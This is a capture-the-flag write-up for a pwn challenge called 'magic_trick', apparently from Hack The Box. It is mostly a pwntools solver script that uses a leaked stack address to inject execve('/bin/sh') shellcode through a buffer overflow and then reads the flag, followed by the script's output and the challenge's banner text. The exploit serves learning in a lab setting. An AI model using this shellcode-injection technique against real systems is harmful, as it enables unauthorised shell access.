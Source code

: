 # Solution

```python
#!/usr/bin/python3.8
from pwn import *
import warnings
import os
warnings.filterwarnings('ignore')
context.arch = 'amd64'
context.log_level = 'critical'

fname = './magic_trick' 

LOCAL = False

os.system('clear')

if LOCAL:
  print('Running solver locally..\n')
  r    = process(fname)
else:
  IP   = str(sys.argv[1]) if len(sys.argv) >= 2 else '0.0.0.0'
  PORT = int(sys.argv[2]) if len(sys.argv) >= 3 else 1337
  r    = remote(IP, PORT)
  print(f'Running solver remotely at {IP}:{PORT}\n')

# Read stack leak
r.recvuntil("is '")
leak = int(r.recvuntil("'")[:-1], 16)
print(f'Leak: {leak:#04x}')

# Proceed to Bof
r.sendlineafter('>> ', 'y')

sc = asm(shellcraft.execve('/bin/sh'))

r.sendlineafter('>> ', sc.ljust(0x48, b'\x90') + p64(leak))

# Read flag
pause(1)
r.sendline('cat flag*')
print(f'\nFlag --> {r.recvline_contains(b"HTB").strip().decode()}\n')
```

```console
Running solver remotely at 0.0.0.0:1337

Leak: 0x7ffc715a8c10

Flag --> HTB{f4k3_fl4g_f0r_writ3up}
```


[Hex-Magician]: I will tell you a number and I want you to memorize it.
[Hex-Magician]: Now I want you to add 0x10 to this number ok?
[Hex-Magician]: Now, multiply the result with 0x20.
[Hex-Magician]: Now, divide the result with 0x20 and then subtract 0x10!
[Hex-Magician]: Is this your initial number?
[Hex-Magician]: Of course it is! I'm the greatest Hex-Magician!
[Hex-Magician]: Did you enjoy the trick after all?